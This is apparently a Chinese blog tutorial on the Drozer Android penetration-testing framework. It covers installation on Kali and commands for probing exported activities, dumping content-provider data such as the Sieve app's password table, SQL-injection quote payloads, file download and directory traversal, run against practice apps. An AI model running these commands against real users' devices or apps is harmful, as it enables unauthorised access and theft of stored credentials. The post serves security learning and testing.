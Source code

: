 ```yaml
---
layout:     post
title:      Android渗透框架-Drozer教程
subtitle:   安卓渗透学习
date:       2019-04-05
author:     蓝胖
header-img: img/post-bg-2019-04-05.jpg
catalog: true
tags:
    - Android
    
  
---
```


>“我相信未来我们会生活在一个数据被时时监控的时代，被企业出于商业目的监控，被黑客出于牟利目的监控。这就像我们每个人都赤身露体行走在光天化日之下一样，想想就会让人不舒服。如果没有合理的法律和有效的技术保护手段，这将是最糟糕的时代。
但这个时代终将到来，不管我们是否喜欢它，只能做好迎接它的准备，不适者将被淘汰。我们能做的，是尽自己的微薄之力，按照我们的想法，将这个即将到来的时代塑造得更加美好”

# Kali安装Drozer
````python
root@kali:~# git clone https://github.com/mwrlabs/drozer/
root@kali:~# cd drozer/
root@kali:~/drozer# python2 setup.py build
root@kali:~/drozer# python2 setup.py install
````


[![AR443Q.png](https://s2.ax1x.com/2019/04/05/AR443Q.png)](https://imgchr.com/i/AR443Q)
# Kali安装adb
````python
root@kali:~# apt-get install android-tools-fastboo
root@kali:~# apt-get install android-tools-adb
````
[![AR4cHP.png](https://s2.ax1x.com/2019/04/05/AR4cHP.png)](https://imgchr.com/i/AR4cHP)
 
# 手机安装agent
agent下载地址：https://github.com/mwrlabs/drozer/releases/download/2.3.4/drozer-agent-2.3.4.apk
使用adb将agent安装到手机。
安装完成后，手机打开agent
### 端口转发
使⽤adb进⾏端⼝转发，转发到Drozer使⽤的端⼝31415。  **adb forward tcp:31415  tcp:31415**
# 运行Drozer

**drozer console connect**
[![AR4ynI.png](https://s2.ax1x.com/2019/04/05/AR4ynI.png)](https://imgchr.com/i/AR4ynI)


# 常用命令
```python
#列出所有模块
list
app.activity.forintent                   Find activities that can handle the given intent                           
app.activity.info                        Gets information about exported activities.                                    
app.activity.start                       Start an Activity                                                              
app.broadcast.info                       Get information about broadcast receivers                                      
app.broadcast.send                       Send broadcast using an intent                                                 
app.broadcast.sniff                      Register a broadcast receiver that can sniff particular intents  
```
```python
#列出设备中所有已安装的包
run app.package.list
```
[![AR46Bt.png](https://s2.ax1x.com/2019/04/05/AR46Bt.png)](https://imgchr.com/i/AR46Bt)

```python
#搜索包名
run app.package.list -f [app name]
```
[![AR4rjA.png](https://s2.ax1x.com/2019/04/05/AR4rjA.png)](https://imgchr.com/i/AR4rjA)

```python
#显示包的详细信息
run app.package.info -a [app name]
```
[![AR4RN8.png](https://s2.ax1x.com/2019/04/05/AR4RN8.png)](https://imgchr.com/i/AR4RN8)

```python
#查看包的可攻击点
run app.package.attacksurface [app name]

```
[![AR42Af.png](https://s2.ax1x.com/2019/04/05/AR42Af.png)](https://imgchr.com/i/AR42Af)

```python
#显示 manifest 文件
run app.package.manifest [app name]
run app.package.manifest jakhar.aseem.diva
```
[![AR4LNT.png](https://s2.ax1x.com/2019/04/05/AR4LNT.png)](https://imgchr.com/i/AR4LNT)


# 四大组件
## 一、activity 界面
> 应用程序中，一个Activity通常就是一个单独的屏幕，它上面可以显示一些控件也可以监听并处理用户的事件做出响应。 Activity之间通过Intent进行通信。在Intent的描述结构中，有两个最重要的部分：动作和动作对应的数据。

使用apktool反编译出安装包的AndroidManifest.xml文件，可看到将activity的exported设置为true。说明存在被导出的分险
[![AR4W4S.md.png](https://s2.ax1x.com/2019/04/05/AR4W4S.md.png)](https://imgchr.com/i/AR4W4S)

```python
#查看对外的activity组件信息
run app.activity.info -a app_name
run app.activity/broadcast/Service/provider.info -a app_name
```

[![AR4Ijs.md.png](https://s2.ax1x.com/2019/04/05/AR4Ijs.md.png)](https://imgchr.com/i/AR4Ijs)

```python
#使用app.activity.start进行漏洞测试，弹出内部功能，说明存在越权漏洞
run app.activity.start --component [app_name]  [acitvity_name]
run app.activity.start --component com.huahua.testinh  com.huahua.testing.test
```

[![AR4h9g.md.png](https://s2.ax1x.com/2019/04/05/AR4h9g.md.png)](https://imgchr.com/i/AR4h9g)

## 二、Broadcast Receiver 应用进程通信
> BroadcastReceive广播接收器应用可以使用它对外部事件进行过滤只对感兴趣的外部事件(如当电话呼入时，或者数据网络可用时)进行接收并做出响应。广播接收器没有用户界面。然而，它们可以启动一个activity或serice 来响应它们收到的信息，或者用NotificationManager来通知用户。通知可以用很多种方式来吸引用户的注意力──闪动背灯、震动、播放声音等。一般来说是在状态栏上放一个持久的图标，用户可以打开它并获取消息。



## 三、Service  后台服务

> 一个Service 是一段长生命周期的，没有用户界面的程序，可以用来开发如监控类程序。较好的一个例子就是一个正在从播放列表中播放歌曲的媒体播放器。在一个媒体播放器的应用中，应该会有多个activity，让使用者可以选择歌曲并播放歌曲。

## 四、Content Provider 应用数据管理
> android平台提供了Content Provider使一个应用程序的指定数据集提供给其他应用程序。这些数据可以存储在文件系统中、在一个SQLite数据库、或以任何其他合理的方式。其他应用可以通过ContentResolver类从该内容提供者中获取或存入数据。只有需要在多个应用程序间共享数据是才需要内容提供者。

#### 信息泄露利用
```python
#扫描并获取Content Provider信息，并列出了可访问内容URI的列表和路径：
run scanner.provider.finduris -a app_name
```

[![AR4Tun.png](https://s2.ax1x.com/2019/04/05/AR4Tun.png)](https://imgchr.com/i/AR4Tun)

```python
#查询或修改数据库中的数据，发现存在数据泄露问题，访问uri可看到一些敏感信息
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

[![AR45cj.md.png](https://s2.ax1x.com/2019/04/05/AR45cj.md.png)](https://imgchr.com/i/AR45cj)


#### SQL注入漏洞


```python
#同样content可能导致注入问题。使用以下语句进行测试发现报错，说明存在SQL注入漏洞。
 run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/
--projection "'" 

 run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/
--selection "'" 
```
[![AR4HH0.png](https://s2.ax1x.com/2019/04/05/AR4HH0.png)](https://imgchr.com/i/AR4HH0)
##### 注入点位置进行扫描
```python
# 对某一个App注入漏洞扫描
run scanner.provider.injection -a  com.mwr.example.sieve
# 对手机里所有APP注入漏洞扫描
run scanner.provider.injection
```

[![AR4qEV.png](https://s2.ax1x.com/2019/04/05/AR4qEV.png)](https://imgchr.com/i/AR4qEV)

##### 文件下载
```python
run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data
#执行成功后应该回显以下内容
/data/com.mwr.example.sieve/databases/database.db /home/user/database.db 
Written 24576 bytes
```
##### 目录遍历
```python
 run scanner.provider.traversal -a com.mwr.example.sieve
```
[![AR47Bq.png](https://s2.ax1x.com/2019/04/05/AR47Bq.png)](https://imgchr.com/i/AR47Bq)
